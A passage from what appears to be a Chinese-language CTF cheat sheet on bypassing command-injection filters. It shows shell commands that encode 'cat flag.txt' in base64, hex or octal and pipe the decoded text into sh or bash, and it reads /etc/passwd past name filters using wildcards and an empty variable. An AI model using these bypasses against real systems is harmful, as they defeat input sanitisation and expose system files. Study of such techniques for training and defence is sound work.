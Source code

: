 
#### 1.5 编码绕过

**base64编码**

```php
[root~]# echo 'cat flag.txt' | base64
Y2F0IGZsYWcudHh0Cg==
[root~]# echo Y2F0IGZsYWcudHh0Cg== | base64 -d
cat flag.txt
    
[root~]# echo Y2F0IGZsYWcudHh0Cg== | base64 -d | sh
flag{flag_is_here}
[root~]# echo Y2F0IGZsYWcudHh0Cg== | base64 -d | bash
flag{flag_is_here}
```



#### 1.6 进制绕过

**16进制**

```php
[root~]# echo cat flag.txt | xxd 
6361 7420 666c 6167 2e74 7874 0a
[root~]# echo 6361 7420 666c 6167 2e74 7874 0a | xxd -r -p
cat flag.txt
[root~]# echo 6361 7420 666c 6167 2e74 7874 0a | xxd -r -p | bash  或 | sh
flag{flag_is_here}


[root~]# $(printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")  //cat flag.txt 16进制
flag{flag_is_here}
```



**8进制**

```php
[root~]# $(printf "\143\141\164\40\146\154\141\147\56\164\170\164")  
flag{flag_is_here}
```



#### 1.7 过滤文件名(如： /etc/passwd文件)

```php
1) 利用正则匹配绕过

[root~]# cat /???/pass*

2) 例如过滤/etc/passwd中的etc，利用未初始化变量，使用$u绕过

[root~]# cat /etc$u/passwd
```
